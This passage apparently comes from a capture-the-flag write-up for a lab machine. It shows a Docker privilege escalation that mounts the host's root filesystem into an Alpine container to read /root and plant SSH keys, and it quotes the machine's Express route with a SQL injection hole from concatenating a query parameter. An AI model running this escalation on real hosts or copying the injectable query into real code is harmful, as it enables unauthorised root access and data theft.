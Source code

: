 So we have many images. Lets use apline to create a container

```bash
$ docker run -v /:/mnt --rm -it alpine sh
```

-v /:/mnt to mount the root directory of host to /mnt inside the container

—rm : remove the container after the user exits

-it : interactive and assigna tty 

alpine : image to use to create container

sh : binary to run when the container starts

```bash
michael@the-marketplace:/tmp$ docker run -v /:/mnt --rm -it alpine sh
/ # ls -la /mnt/root/
total 28
drwx------    4 root     root          4096 Aug 23 15:20 .
drwxr-xr-x   23 root     root          4096 Aug 23 08:18 ..
lrwxrwxrwx    1 root     root             9 Aug 23 05:26 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwxr-xr-x    3 root     root          4096 Aug 23 15:20 .local
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
drwx------    2 root     root          4096 Aug 23 03:48 .ssh
-r--------    1 root     root            38 Aug 23 05:25 root.txt
```

Finally we have the flag. We can add our public key to gain root access. 
# Vulnerable SQLi Code

```jsx
router.get('/admin', (req, res, next) => {
  if (!req.loggedIn || !req.user.admin) return res.status(403).render('error', {
    error: 'You are not authorized to view this page!'
  });
  if (req.query.user) {
    db.query('SELECT * FROM users WHERE id = ' + req.query.user, (error, items, fields) => {
      if (error) {
        return res.status(500).render('error', {
          error
        });
      }
      return res.render('adminUser', {
        title: `User ${items[0].id}`,
        user: items[0]
      });
    })
  } else {
    db.query('SELECT * FROM users', (err, items, fields) => {
      if (err) {
        return res.status(500).render('error', {
          error: 'An error occurred getting user list'
        });
      }
      return res.render('adminPanel', {
        title: 'User listing',
        users: items
      });
    })
  }
})
```
